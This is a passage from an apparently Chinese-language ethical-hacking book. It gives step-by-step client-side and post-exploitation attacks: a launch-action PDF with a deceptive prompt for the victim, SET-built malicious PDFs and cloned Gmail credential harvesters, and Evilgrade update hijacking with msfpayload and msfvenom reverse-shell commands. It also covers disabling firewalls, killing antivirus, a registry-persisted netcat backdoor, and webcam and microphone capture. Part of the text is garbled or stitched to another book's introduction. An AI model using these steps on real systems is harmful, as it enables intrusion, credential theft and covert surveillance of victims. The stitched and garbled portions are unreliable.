下载 PDF 后，尝试打开它会弹出一个对话框，点击 `打开`，Ze 就会安装。你可以创建一个带有启动动作的 PDF 来攻击你的受害者。要这样做，你需要一个空的 PDF 文件或内容极少的文件。你还需要 Adobe reader 9.3.2 版本，可以从 `oldapps.com` 下载。用 Wordpad 或记事本打开你的 PDF 文件。在你的编辑器中，文件如下所示：`img/d52d8402f5bef7b14bcbab9bcc53820f_277_0.png`

滚动到名称对象部分，如下所示：

```
5 0 obj
<</Length 500
stream
BT/Y 10 Tf 350 750 Td 20 20 L 1 Tr (blank.pdf) Tj ET
BT/Y 15 Tf 233 690 Td 0 Tr 0.0 0.58823294117647 0.0 rg (This is a PDF!) Tj ET
endstream
```

将部分 `<<length 500` 替换为：

```
/Type/Action
/S/Launch
/Win <<
/F (calc.exe)
)
```

```
108 0 obj
<<
/Type /Action
/S /Launch
/win
/F (calc.exe)
>>
endobj
```


你已经创建了一个启动动作 PDF，现在需要做的只是将其保存为 PDF。当受害者打开该 PDF 时，会出现一个对话框，警告他们打开此类文件的危险性。由于对话框显示文件可能包含病毒和宏，受害者可能会拒绝打开该 PDF 文件。然而，通过在`/F (cmd.exe)`之后添加下行，你可以让 PDF 变得易执行。

`/p (此文件包含太多错误。为了让 Windows 能够正常打开您的文件，请点击“确定”，如果您想关闭程序，请点击“取消”。)`

# 使用 PDF 收集信息

除了使用 PDF 发起攻击外，你还可以利用它们收集信息，然后利用这些信息发起攻击。PDF 携带了有用的元数据，你可以利用它们发起社交工程攻击。许多工具都允许你使用 PDF 收集数据，包括`PDFINFO`和`metagofool`。

`PDFINFO`是一个基于 UNIX 的工具，你可以用它收集特定 PDF 的信息，包括操作系统、PDF 阅读器版本以及许多其他细节。你只需要运行命令`pdfinfo "your pdf file"`，就能看到关于该 PDF 的所有信息，包括作者、创建者和创建数据等。

# PDFTK

`PDFTK`是另一个你可以用于生成 PDF 文件的工具，包括合并 PDF 文件。你可以通过运行命令`pdftik`来启动该工具。你可以在`http://www.pdflabs.com/docs/pdftk-cli-examples/`学习更多信息。

# Origami Framework

`Origami`框架是`PDFTK`的替代方案。它允许你创建和操作 PDF 框架。默认情况下，BackTrack 未预装该框架。你可以通过`wget http://seclabs.org/origami/files/origami-last.tar.gz`下载它，并使用以下命令提取其内容：

```
tar xvzf origami-last.tar.gz
```


安装后，可以在目录`origami-1.0.0-beta1`中找到该工具。

# PDF 攻击

Metasploit 中有很多 PDF 漏洞——你只需要找到一个符合你需求的漏洞即可。启动 Metasploit 后，从其控制台运行以下命令。

`Search pdf`

此命令将列出所有适用于 PDF 文件的漏洞。注意，大多数漏洞只有在嵌入 exe 文件时才有效，以此绕过杀毒软件并确保受害者无法识别文件是恶意的。

使用 PDF 发起攻击时，有两种主要的漏洞：文件格式漏洞和浏览器漏洞。文件格式漏洞通过创建恶意 PDF 来工作；一旦执行，将为你提供 shell。然后你可以使用 Metasploit 上的漏洞感染受害者计算机上的文件，从而感染所有其他文件。

浏览器漏洞在白帽黑客中并不常见，但它们可能很有用。当你选择一个浏览器 PDF 漏洞模块时，这些漏洞就会生效。这些漏洞利用了 Metasploit 内置的 Web 服务器。当你使用 Web 服务器并将 PDF 漏洞加载其中后，你将通过社交工程将 URL 发送给目标。

一旦受害者点击链接，PDF 漏洞就会注入，你的工作就完成了。

# 使用社交工程工具 (SET)

与其通过长时间的过程创建恶意 PDF 文件，你可以使用社交工程工具。要使用 Metasploit 生成恶意 PDF，请按照以下步骤操作。

- 1. 打开`Social Engineering Attack Vectors`菜单，并在键盘上按 3 打开`Infectious Media Generator`菜单。
- 2. 打开菜单后，在文件格式漏洞和标准 Metasploit 可执行文件之间进行选择。对于文件格式漏洞，按 1；对于标准 Metasploit 可执行文件，按 2。
- 3. 接下来，系统会提示提供反向连接 IP，然后你需要选择所需的漏洞类型。选择`Adobe PDF Embedded EXE`。
- 4. 然后你需要选择是创建自己的 PDF 还是使用 SET 上的 PDF 模板。在下方，选择合适的负载（payload）——你可以坚持`Windows/shell/reverse_tcp`。
- 5. 输入你的负载监听器的 IP 地址（即你的 BackTrack 的 IP），随后是监听器运行的端口。只要所选端口上没有运行的服务，你可以选择任何端口。
- 6. SET 最后会要求你启用监听器，以开始监听传入的连接。

受害者一旦打开 PDF 文件，反向连接就会发送到你的 BackTrack 机器。

PDF 漏洞是一个宽泛的主题，本书无法涵盖该主题的方方面。然而，你可以在此处阅读更多内容：

- http://blog.didierstevens.com/
- http://www.sudosecure.net/

# 带有恶意链接的邮件

在处理带有恶意攻击的邮件时，你会向目标发送一个链接并希望他们打开。打开链接后，你有多种方法可以攻击目标。

你可以设置一个伪造登录页面来收集目标的详情。为了看起来真实，你可以让登录页面像 Facebook 等流行网站的页面。该页面可能位于 `facebookfakpage.freehost.com`。

当你与目标处于同一网络中时，你可以发起 DNS 欺骗攻击，将常用网站（例如 Facebook）的 IP 地址替换为你伪造登录面的 IP 地址。在这里，每当目标访问 `facebook.com` 时，他们将登录你的伪造登录页面。

除了伪造登录页面，你还可以设置一个恶意服务器并将目标引导那里。恶意服务器将使用相关的浏览器漏洞来破解攻击的浏览器。

社交工程工具中有不同的模块可以帮助你发起上述攻击。

# 凭据收割攻击 (Credential Harvester Attack)

凭据收割攻击允许你从目标处收集凭据。在这里，你创建一个 `gmail.com` 等网站的副本，这样每当目标登录副本时，凭据就会被保存。你可以使用 SET 中的`Credential Harvester Attack`工具。要为此，请按照以下步骤操作：

从网站攻击向量打开`Credential Harvester Attack`，并选择你想要如何创建副本。你可以使用预定义模板、使用网站克隆工具或导入你创建的模板。为了使过程简单，选择使用预定义模板。

然后你需要输入接收凭据的 IP 地址。

工具将向你列出供使用的预定义模板列表。你可以选择 `gmail.com`，因为大多数人都在使用它。一旦收割机运行，你需要将 `gmail.com` 的 IP 地址替换为你的。每当受害者访问你的 IP 地址时，他们的凭据就会被记录并显示给你。

# Tabnabbing 攻击 (标签劫持)

Tabnabbing 是一种钓鱼攻击，攻击者用自己的网站重写现有标签页。当受害者回到被攻击者替换的标签页时，他们会认为自己注销并再次登录。当受害者登录你的页面时，你就可以收集他们的凭据。你可以使用 SET 发起这种攻击。为此，请按照以下步骤操作：

在`Credential Harvester`选项下方选择`Tabnabbing attack`。在`Tabnabbing attack`菜单内部，选择`Web templates`并选择`Site cloner`，因为 Tabnabbing 无法兼容第一个选项。

接下来，你需要提供托管攻击的 IP 地址和要克隆的网站——你可以选择克隆 `gmail.com`。在提供上述细节后，攻击将自动启动。受害者一加载网站，他们就会看到一条显示为“请稍候，网站正在加载”的消息，随后伪造的 `gmail.com` 登录页面将加载。

# 基于浏览器的漏洞

当你需要直接攻击受害者时，浏览器漏洞也非常好。如果你正在进行内部渗透测试，你已经在局域网（LAN）上有一台机器；如果你正在进行外部渗透，你需要设置一个恶意服务器。由于组织中的大多数员工会访问 Facebook 等网站，你可以通过发送恶意链接来破解他们。如果你在内部网络中，可以使用 DNS 投毒攻击将目标重定向到恶意 Web 服务器。

在启动浏览器漏洞时，你可以通过 SET 使用 Browser AutoPWN 攻击。Browser AutoPWN 帮助你在 Metasploit 中启动可用浏览器漏洞。当你启动 Browser AutoPWN 时，在发起攻击之前可以看到目标正在使用的浏览器。该工具唯一的问题是它的特征过于明显，可能会被入侵检测软件发现。

要使用此技术，你需要先在 SET 上设置一个恶意 Web 服务器。为此，请按照以下步骤操作：

- 1. 打开 SET 攻击菜单并选择`Metasploit Browser Attack Method`。
- 2. 接下来，你需要选择所需的 Web 模板——在这种情况下，选择第一个选项。它会询问是否启用了端口转发或 NAT 转发。之后询问你的公网 IP 地址，可以通过 `getip.com` 或任何显示公网 IP 的网站获取。
- 3. 工具随后询问反向处理器是否位于不同的 IP
来自你的公共 IP，如果是这样，你将回答“是”。
- 4. 从模板列表中选择你喜欢的模板，你将看到一个可以使用其来攻害害者的利用程序列表。在这种情况下，选择`Metasploit Browser AutoPWN`。
- 5. 你需要选择要使用的有效负载（payload）——选择 `Windows reverse_Meterpreter`。
- 6. 最后，你将被要求选择用于反向连接的端口 – 默认端口为 443，但你可以选择任何你喜欢的端口。

几分钟后，Web 服务器将启动。

# 攻破客户端的更新

使用正确的工具，可以很容易地攻破客户端的更新——在这种情况下，你可以使用 Evilgrade。该工具预装在 BackTrack 中。该工具利用了不安全的更新机制，即受受害者未能双重检查应用的下载来源。

在应用程序升级之前，它会进行完整性检查以确保升级是真实的。然而，应用程序并不会检查升级来源的真实性。

Evilgrade 是一个用 Perl 开发的工具。该工具可以注入伪更新，并内置了各种应用程序的模块，如 Windows 更新、记事本、iTunes 和 Safari 等。你需要操纵目标的 DNS 流量，以便 Evilgrade 能够按预期工作。

通过使用内部或外部攻击向量有多种方法操纵目标的 DNS 流量。如果你与目标在同一网络中，可以使用以下攻击向量：

- 利用 DNS 服务器
- ARP 欺骗
- DNS 欺骗
- 伪造访问点

如果你与目标不在同一网络中，可以使用以下攻击向量：：

- 利用 DNS 服务器
- DNS 缓存投毒

Evilgrade 控制台与 CISCO 的 IOS 控制台相同，包含以下基本命令：

`show <object>`: 显示给定对象的详细信息
`conf <object>`: 打开特定模块的配置模式
`set <option> "value"` - 配置不同的选项
`start`: 启动 DNS 或 Web 服务器
`stop`: 停止 DNS 或 Web 服务器
`restart`: 重启 DNS 或 Web 服务器
`help`: 为提供有关通用命令行用法的帮助

# Evilgrade 的实战

假设你需要攻击内部网络中一个始终使用 Notepad++（记为了本++）的用户。为了做到这一点，你需要利用 Notepad++ 的更新漏洞进行攻击，并设置 Evilgrade 接管更新。之后，你需要操纵 DNS 记录，使得当受害者更新 Notepad++ 时，它会重定向到 Evilgrade。你需要在你的 Evilgrade 服务器上有一个恶意有效负载，这意味着受害者将下载并执行恶意负载。

要完成所有操作，你需要按照以下步骤进行。

使用 MSFPayload 创建一个 Windows 二进制文件。在这里，你将获得一个反向 Meterpreter 壳（shell）。你将创建的是每当你的受害者更新 Notepad++ 时都会执行的代码。运行以下命令：

```


## 第一步

```
msfpayload windows/Meterpreter/reverse_tcp lhost=192.168.75.144 lport=4444 X > xen.exe
```

上面的命令将创建一个 Windows 二进制文件，它将通过端口 `4444` 连接到你处，允许你访问 Meterpreter 会话。

## 第二步

从 `/pentest/exploits/isr-evilgrade` 目录启动 Evilgrade。要这样做，请使用以下命令：

```
root@bt:~# cd /pentest/exploits/isr-evilgrade
```

```
root@bt:/pentest/exploits/isr-evilgrade# ./eviligrade
```

## 第三步

你需要设置 `DNSAnswerIP`，它是执行所有 DNS 回答的 IP。使用以下命令：

```
evilgrade> set DNSAnswerIP 192.168.75.144
```

之后，你需要配置你想要使用的模块。输入 `show module` 命令，它将列出所有可用模块。在这种情况下，你需要配置 `notepadplus`。

```
evilgrade> configure notepadplus
```

执行 `show options` 命令以查看你可以配合此模块使用的选项列表。选择你需要的选项，并为你选择的选项运行以下命令（我们选择了 `agent/root/xen.exe`）。

```
evilgrade(notepadplus)> set agent/root/xen.exe
```


在此阶段，你现在可以输入 `"start"` 来启动 Web 服务器。但是，你仍然需要设置一个监听器来接收连接。你可以通过执行以下命令来实现这一点：

- `msf> use exploit/multi/handler`
- `msf> set payload windows/Meterpreter/reverse_tcp`
- `msf> set LHOST 192.168.75.144`
- `msf> set LPORT 4444`

将在端口 `4444` 上设置一个监听器，一旦代理在受害者机器上执行，就会建立一个反向连接。

你现在可以启动 DNS 欺骗攻击，但你需要更改 notepad 安装更新的路径到你的本地主机。这需要你使用以下命令编辑 `etter.dns` 文件：

`/etc/usr/local/share/ettercap/etter.dns`

使用上述命令，你将创建一个新记录，`notepadplus` 将从那里接收更新。之后，你可以使用 Ettercap 或你选择的任何工具启动 DNS 欺骗攻击。

# USB 盘上的恶意软件

如果你对目标有物理访问权限，可以使用 USB 盘执行恶意代码。即使在禁用了自动运行的情况下也是可能的。要这样做，请按照以下步骤操作：

使用 Evilgrade 生成恶意负载。从主菜单中选择 `"Infectious Media"`。

然后，从那里选择 `"Standard Metploit Payload"`。这将生成 `.exe` 文件。

# Teensy USB

`Teency USB` 是一种你可以模拟键盘和鼠标的设备。该设备可以帮你绕过 `autorun.inf` 保护。

## 总结

在本章中，我们学习了客户端攻击，这涉及利用用户的错误。为了完成本章讨论的大部分漏洞，你需要了解 SET 以及如何使用它。你可以在 SET 的官方文档上查看更多信息：`http://www.social-engineer.org/framework/Computer_Based_Social_Engineering_Tools`

# 第 9 章

## 进一步利用目标

### 获取访问后

这是渗透客测试的最后一步——后处理。一旦你利用了目标并获得了访问权限，你应该做什么？获取访问后，你需要进一步利用目标以获得更多权限、提升权限并深入渗透内部网络。

对于大多数后处理过程，我们将使用 Meterpreter。Meterpreter 内置许多脚本可以帮助你轻松进行后处理。这些脚本是用 `ruby` 编写的，你也可以根据需要修改脚本。

本章将重点关注如何维持访问以及如何深入内部网络。

# 获取主机信息

在利用并获取目标系统的访问后，你需要查找有关位置的信息。此类信息包括接口、主机名、路由以及主机监听的服务。这种态势感知将帮助你进行枚举。

# Windows Windows枚举

大多数公司和组织都使用 Windows。你需要枚举网络以查找主机、接口和服务等等细节。例如，如果你使用 `ms08_067 – netapi exploit` 攻击了一个 Windows 主机，你将获得一个 `meterpreter` 会话。从会话中，你可以执行 `shell` 命令来打开命令行提示符。从命令行提示符，你可以运行一些命令来获取更多关于目标系统的信息。常用命令包括：

- `ipconfig` – 该命令将列出接口、IP 地址、MAC 地址和网关。
- `ipconfig/all` – 此命令将显示关于接口的额外信息，如 DNS 服务器。
- `ipconfig/playdns` – 显示 DNS 缓存。
- `arp –a` – 显示 ARP 缓存。
- `Route Print` – 显示计算机的路由表。你也可以使用 `netstat –r` 命令显示该表。
- `tasklist/svc` – 列出目标计算机上运行的所有服务。
- `net start/net stop` – `net start` 命令将显示目标计算机上运行的所有服务。你可以使用 `net stop` 命令停止杀毒软件等服务。
- `netsh` – 收集有关防火墙规则的信息。你也可以使用命令 `netsh opmode to disable` 来关闭防火墙。

## 枚举本地组和用户

你只需要两个命令就可以枚举本地组和用户：

- `net user` – 该命令列出所有本地用户，包括管理员和访客。
- `net localgroup` – 显示所有本地组。例如，你可以运行命令 `net localgroup administrators` 来显示管理员的本地组。
- 要识别域管理员，你可以运行命令 `net \domain`。

## 枚举 Linux 机器

在大多数情况下，你只会遇到 Windows 宿主机而不是 Linux 机器。你可以用于枚举 Linux 机器的某些命令包括：

- `ifconfig`— 显示接口和关联。
- `pwd`— 显示当前目录 ID。
- `ls`— 显示给定目录下的文件。
- `find`— 查找特定文件。
- `find <path> -name filename`
- `who/last`— 显示当前登录的用户和用户的登录历史。
- `whoami`— 显示你在目标机器上享有的权限。
- `uname—a`— 告知内核版本。
- `touch`— 当你在当前目录上写入权限时，创建一个 0 字节的文件。
- `cat/passwd`— 枚举目标计算机上的本地用户。即使你拥有最低级别的权限也可以执行此操作。

## 使用 Metasploit 进行枚举

当你需要挖掘数据并进行枚举时，Metasploit 是一个非常强大的工具。你可以在 Windows shell 和 Meterpreter shell 之间切换，以挖掘更多数据。使用 `meterpreter` 时，可以先通过输入 `help` 命令来查看特定任务的所有可用命令列表。某些用于收集目标系统信息的命令包括：

- `sysinfo command` — 提供有关系统的重要细节，包括操作系统、架构和系统语言等。
- `networking commands` — 这些是你在 Windows 或 Linux 上用于查找网络的相同命令。它们包括 `ipconfig`、`ifconfig` 和 `portforward`。
- `PS` — 这是你用于显示所有进程的命令。
- `getuid` – 显示用户的当前 UID。
- `getpid` – 显示当前的进程 ID。

其他命令允许你与系统进行交互。这些与你每天在 Linux 上使用的命令相同。通过 `meterpreter`，你可以在 Windows 上使用这些命令。它们包括：

- `cd`— 在不同目录间导航。
- `cat`— 在屏幕上显示文件内容。
- `search`— 搜索给定文件。
- `ls`— 列出给定目录下的文件。

使用 `meterpreter` 时，你仍然可以与用户界面交互，以找到有关受害者的更多细节。用户界面命令可用于此类任务，如更改受害者的桌面、截图查看受害者正在做什么等。你拍摄的截图将是你伦理黑客报告中的证据。

- `enumdesktops`— 用于打印运行中桌面的信息。
- `screenshot`— 显示机器截图以查看受害者正在使用的应用程序。
- `record _mic`— 如果受害者正在使用麦克风，此命令将进行录音。
- `webcam _list/webcamsnap`— 使用可用的摄像头拍摄受害者的快照。

## 权限提升

由于你需要对受害者系统拥有更高的权限，你需要将权限提升到 `NT Authority SYSTEM`，这将允许访问 Windows 系统的所有部分。拥有 `NT Authority SYSTEM`，你将拥有系统管理员相同的权限。然而，在这样做之前，你可能需要维护 `meterpreter` 会话的稳定性，防止其关闭。

## 维护 Meterpreter 会话稳定性

`Meterpreter` 会话可能会或被杀死。如果你使用 Internet Explorer 6 `aurora` 漏洞攻击目标，当受害者关闭 IE6 时，你的会话就会结束。但你可以将会话迁移到稳定进程（如 `explorer.exe` 或 `svchost.exe`）来阻止这一点。在 Metasploit `post/windows/manage/migrate` 目录下，有一个脚本可以帮助你迁移。你只需要运行下面的命令：

```
meterpreter> run post/manage/migrate
```

要迁移到特定进程，你需要先运行 `"ps"` 命令来搜索进程 ID。现在找到你需要迁移的进程 ID。例如，`svchost.exe` 的 ID 为 `856`，你运行下面的命令：

```
meterpreter> Migrate 856
```


成功迁移后，你将收到类似下面的消息：


你在 Linux 机器上提升权限的技巧取决于受害者所使用的内核版本。在大多数情况下，`getsystem`模块可能不适用于基于 Linux 的操作系统。要在 Linux 上提升权限，你需要学习更多关于服务器黑客的知识。

# 权限提升后的维持访问

即使在通过迁移到稳定进程维持了稳定性后，你仍然需要保持可访问性和持久性。即使有了稳定进程，每当目标计算机重启时你都可能丢失访问权限。使用之前利用的漏洞重新获得访问是的，但考虑到系统会更新且漏洞会被修补，这并不是一个好主意。

为了维持访问权限，你需要安装后门或破解哈希值以保留访问权限。

## 后门

后门让你即使在重启后也能访问受害者的系统。你可以通过修改注册表来创建一个后门。你可以上传不同的后门到受害者的计算机中来更改注册表，在此之前，你需要先关闭杀毒软件和防火墙等安全功能。

需要禁用防火墙以确保它不会在你执行后渗透时阻碍你。要做到这一点，在`meterpreter`上执行`shell`命令以打开 Windows 命令提示符。运行以下命令来关闭防火墙。

```
netsh firewall set opmode disable
```

接下来，你需要杀死受害者的杀毒软件。如果让其运行，杀毒软件可能会删除后门，而你必须保持不被发现。要查看正在运行的杀毒软件，在 Windows 命令提示符中输入`net start`命令和`tasklist/svc`命令。

一旦你在受害者系统中找到运行的杀毒软件，使用`taskkill`命令杀死该任务。或者，你可以使用`meterpreter`上的`killav`脚本，它可以自动为你杀死杀毒软件和相关进程。你可以通过运行`cat`命令查看脚本内容。

```
cat /opt/metasploit/msf3/scripts/meterpreter/killav.rb
```

运行`meterpreter`脚本杀死杀毒软件及相关进程，请使用以下命令：

```
meterpreter> kill av
```

## Netcat 后门

这是最老的黑客后门之一。当你将`netcat`上传到受害者计算机时，它会打开一个端口来监听连接。你只需要连接到该端口即可获得命令提示符。`Netcat`位于`/pentest/windows-binaries/tools/`目录下。如果你需要将后门上传到`system32`目录，将使用以下命令：

```
meterpreter> upload /pentest/windows-binaries/tools/nc.exe c:\windows\system32
```

之后，你需要编辑注册表以设置`netcat`在系统启动时加载创建的后门。这将让你在需要任何时候访问受害者的系统。运行以下命令编辑注册表。

```
meterpreter > reg setval -k HKLM\software\microsoft\windows\currentversion\run -d 'C:\windows\system32\nc.exe -Ldp 4444 -e cmd.exe' -v netcat
```

上述命令将受害者的计算机注册表键设置为`netcat`。重启后，注册表会在端口`4444`上监听连接。一旦设置了后门，你现在就可以通过`netcat`从你的攻击机连接到受害者机器。

```
nc -v <targetIP> <port>
```

上述命令将打开一个命令提示符。

## MSFPayload/MSFencode

虽然`Netcat`是一个很好的后门，但它并不隐蔽——杀毒软件和其他安全程序可能会识别它的存在。同样，使用`netcat`你只能访问命令提示符。为了确保你有更多的访问权限并躲避受害者安全系统的检测，你可以使用`MSFPayload`创建后门，然后使用`MSFEncode`对后门进行编码。

### 使用 MSFPayload 生成后门

`MSFPayload`生成多种形式的负载。例如，我们可以生成`exe`形式的后门，每当受害者执行它时，攻击者就会获得一个反向连接。要查看可用的负载列表，可以执行`msfpayload -l`命令。你拥有的一些选项显示如下：

```
root@kali:~# msfpayload -l

Framework Payloads (251 total) =

| Name | Description |

| :--- | :--- |

| x86/shell_bind tcp | 监听连接并产生命令 shell |

| x86/shell_bind port | 在已建立的上产生 shell |

| x86/reverse_tcp | 反向拨号攻击者并产生本地程序 |

| windows/shell_bind tcp | 连接到攻击者并产生命令 shell |

| windows/shell_bind port | 监听连接并产生命令 shell |

| windows/reverse_tcp | 以反向连接执行负载 |

| windows/reverse_service | 监听连接并产生命令 shell |

| windows/reverse_service | 带有反向服务的后门的静态负载 |

| windows/reverse_cmd_tcp | 通过代理监听连接并产生 shell |

| windows/reverse_cmd_tcp | 通过代理执行负载 |
```



当你目标是基于 Windows 的目标时，选择基于 Windows 的负载——你可以使用`windows/meterpreter/reverse_tcp`。

命令将如下：

```
msfpayload windows/meterpreter/reverse_tcp O
```

在命令末尾添加的`O`参数列出了关于该模块的所有详细信息。你还需要在命令中添加`LHOST`和`lport`。默认`lport`为`4444`。最后，添加`X`参数，以便后门将创建创建为可执行文件。命令看起来像这样：

```
msfpayload windows/meterpreter/reverse_tcp lhost= 192.168.75.144 lport= 4444 X >/root/Desktop/backdoor.exe
```

通过上述命令，桌面上将创建一个名为`backdoor.exe`的后门。

### MSFEncode

使用`MSFPayload`生成后门后，你需要对负载进行编码。要查看可用的编码器列表，运行命令`msfencode -l`。

```
root@bt:~# msfencode -l

Framework Encoders

=================

| Name | Rank | Description |

| :--- | :--- | :--- |

| cmd/generic_sh | good | 通用 Shell 变量命令编码器 |

| cmd/ifs | low | |
```

## MSFVenom

你可以使用`MSFVenom`直接生成负载。你可以通过输入命令查看你拥有的选项：

```
msfvenom -h
```

你可以使用以下命令生成一个`exe`后门。

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -LHOST=<targetIP> LPORT=4444 -f exe >/root/Desktop/backdoor.exe
```


# 在后渗透阶段获取哈希值

在计算机系统中，密码以明文形式或数据库或文件系统中的哈希值形式存储。哈希是一种不可逆的加密算法——这意味着一旦明文密码通过了哈希算法，就无法恢复到明文格式。因此，破解密码的唯一方法是猜测数字和字母，将它们通过哈希程序，并手动对比哈希后的密码。

哈希算法有多种类型，最常见的是 `MD5` 和 `SHA-1`。你可以通过观察哈希密码的长度来判断使用的哈希算法——`MD5` 为 32 个字符或少，而 `SHA-1` 为 41 个字符或少。

除了查看长度，你可以使用 `Hash Analyzer` 工具识别哈希类型。该工具根据长度比较哈希，并对相同长度的哈希进行猜测。

# 破解哈希

一旦你找到了哈希算法，现在就需要破解哈希以获取密码并访问 `RDP`、`VNC` 和 `telnet` 等服务。你将使用我们在第七章中看过的一些方法，包括暴力破解和字典攻击。然而，由于盐值（`salt`）的存在，暴力破解和字典攻击并不是破解哈希的有效手段。盐值是在加密前添加到密码中的随机字符串。该字符串可以是用户名或会话 ID 等任何内容。即使两个用户的密码相同，盐也是不同的，这意味着使用暴力破解破解哈希是极具挑战性的。

作为攻击者，如果你进入了存储哈希的数据库表，你可以导出盐值，并利用它们来生成密码。

彩虹表（`Rainbow Tables`）可以帮助你破解密码。它们包含一个不同单词的预计算哈希列表。与必须尝试随机单词的暴力破解不同，使用彩虹表你可以尝试最可能的单词。然而，彩虹表可能很大。

`John the Ripper` 是另一个你可以用来破解哈希的工具。该工具同时暴力破解和基于字典的攻击。

# 数据挖掘

在道德黑客中，你需要从目标系统中收集敏感信息，以证明你访问过该系统。你可以使用数据挖掘来进一步利用目标。为了获取你需要的数据，目标共享驱动器、主目录、数据库和文件服务器。你可以使用 `meterpreter` 从受害者机器上枚举机密数据。

例如，为了收集操作系统的信息，你可以使用 `meterpreter` `scraper` 或 `winenum` 脚本。这可以通过运行命令来实现：

```
meterpreter> run winenum
```


# 进一步利用目标

大多数暴露在互联网上的目标都有高度敏感的数据。看到大多数此类目标从外部无法访问，你可以通过受攻击的目标来连接它们。这个过程被称为枢纽（pivoting）。你可以使用目前学过的命令来查找与目标处于同一网络的其他目标的详细信息。在 Windows 上，你可以使用 `ipconfig` 命令，在 Linux 上使用 `ifconfig` 命令。

为了识别这些其他目标，你可以使用 meterpreter 上的“ARP_Scanner”脚本。该脚本采用 ARP 扫描来识别网络上的其他主机。

一旦找到了这些其他目标，你需要使用 meterpreter 上的 autoute 脚本将流量从受攻击机器路由到同一网络上的这些其他机器。

通过这些其他目标，你可以使用第七章讨论的远程利用技术来攻破其他目标。

## 结论

道德黑客始于信息收集，在这一阶段你会获取尽可能关于目标的信息。获取信息后，你会进入利用和后渗透阶段。在每个阶段，你都可以使用工具——书中提供的工具列表绝非详无完尽——只要它们能帮助你完成定定任务，你就可以尝试其他工具。然而，要避免使用特征明显且容易被目标安全功能检测到的工具。

# 道德黑客

学习渗透测试，
使用高级道德黑客技术与方法进行网络安全

JOE GRANT

### 引言

《道德黑客 - 学习渗透测试，使用高级道德黑客技术与方法进行网络安全》将向你介绍黑客的概念，并进一步让你对道德黑客有更深入的理解。本书旨在教你使用道德黑客可用的最强大工具：Kali Linux 使用渗透测试生命周期。本章将带你了解世界上不同类型的黑客、他们的黑客动机，以及普通用户如何避免成为黑客的目标。

你将学习如何下载和安装 Kali Linux，使其成为你道德黑客工具箱中的永久工具。本书将详细介绍渗透测试生命期的五个阶段，即：侦察、扫描、利用、维持访问和报告。

Kali Linux 中有数百种工具，可用于渗透测试生命期的每个阶段。书的每一章都将详细阐述渗透测试生命周期，并涵盖相应阶段常用的工具。报告阶段将教你如何创建详细报告，将渗透测试活动的结果呈现给高级管理层，以便他们意识到修复其组织数字基础设施中漏洞的行动。

本书面向技术专业人员和软件工程师。不同技术领域的专业人员可以从了解渗透测试员和道德黑客的工作原理中获益。软件工程师可以通过理解他们的软件如何容易受到攻击来更好地理解漏洞。这将确保他们在软件开发阶段本身就格外小心。当然，开发阶段仍然会有错误，但但关于渗透测试的知识可以帮助他们减少这些错误。

此外，想要改变现有背景并转向渗透测试的技术专业人员也可以从书中中学到很多东西。

## 第一章

## 黑客概览

在本章中，你将概述黑客、道德黑客攻击、不同类型的黑客，以及与黑客和道德黑客攻击相关的术语。

## 什么是黑客？

黑客可以定义为探索和利用系统或其关联网络中各种安全漏洞的艺术。互联网的发明是为了给人们的生活带来便利，但它也为犯罪分子提供了扩大犯罪活动的在线平台。犯罪分子开始使用电子邮件、在线即时通讯工具等在线渠道，针对毫无防备的普通人，诱骗他们提供银行账户和信用卡等信息。随着技术的进步，这些犯罪分子开始开发臭名昭著的计算机应用程序来完成手动工作，这为“黑客”一词奠定了基础。

## 谁是黑客？

在简单的情况下，你可能会将黑客描述为一个对事物充满好奇的反社会内向型青少年。然而，在数字世界中，描述黑客的方法有很多。各种因素促使个人黑客入侵系统，每个黑客都采用自己的一套方法和技能来操作。所有黑客的共同点是他们思维敏捷，并且对学习更多技术充满好奇心。

“黑客”一词有两个含义。

- 1. 从传统意义上说，黑客是对学习新事物充满好奇的人，因此喜欢深入研究技术以了解其工作原理。他们通常喜欢玩计算机系统，并喜欢理解电子设备设备是如何运作的。
- 2. 近年来，“黑客”一词有了新的含义——为了个人利益而对系统实施恶意攻击的人。从技术上讲，他们被称为“破解者（crackers）”，这是犯罪黑客的缩写。

犯罪黑客为了个人利益、名声甚至报复而入侵系统。他们进入系统是为了修改、删除或盗取信息，在此过程中让人们的生活变得痛苦。

## 黑客与破解者之间的区别

“黑客（hacker）”一词曾多次误用，而实际上应该使用的术语是“破解者（cracker）”。由于这一点，人们产生了一个常见的误解，认为黑客是入侵系统盗取信息的人。事实并非如此，这损害了全球才华黑客的声誉。

黑客好奇于计算机操作系统的运行，通常接受过编程语言的培训。编程知识有助于黑客发现系统中的漏洞以及产生漏洞的原因。黑客不断尝试获取有关新系统或软件漏洞的知识，并将他们发现的内容与开发者分享。他们绝没有破坏系统或盗取信息的意图。

相比之下，破解者或犯罪黑客是指入侵系统以破坏系统并为了个人利益盗取信息的人。破解者获得系统或其关联网络的未经授权的权限，盗取信息，停止系统服务以影响真实客户，并为系统所有者造成混乱。由于他们的恶意行为，识别破解者非常容易。

## 黑客的类型

黑客根据其知识水平分为若干几类。以下是几种常见的类型：

### 代码编写员 (Coders)

代码编写员是经过高度训练的软件工程师，知道如何编译代码来入侵系统。他们可能使用或不使用自己的知识来入侵系统。然而，他们不断提高自己的技能和知识，与不断变化的技术同步。他们大多数创建应用程序来识别系统中的漏洞。他们进一步研究漏洞，以找到永久修复漏洞的方法。代码编写员拥有 TCP/IP 栈和 OSI 层模型的核心知识。

### 脚本小子 (Script Kiddies)

这组黑客是最危险的，并不是因为他们知识非常渊博，而是因为他们完全相反。他们使用由其他黑客设计和开发的脚本，很少知道这些脚本能做什么。他们会从互联网上免费获取脚本和工具，并在网络上的随机系统上执行它们。他们不测试工具，而且非常粗心。在使用这些工具时，他们会在互联网上留下数字指纹。

脚本小子是那些为了朋友在互联网上随机制造混乱的青少年。值得注意的是，成为一个脚本小子并不需要很多技巧。简单来说，脚本小子是使用真实犯罪分子开发的工具来攻击系统和网络的“小白鼠”。脚本小子不会作为黑客的身份获得任何尊重，但可能会让每个人都感到困扰，因为他们在不承担任何责任的情况下就执行操作。

### 管理员 (Admin)

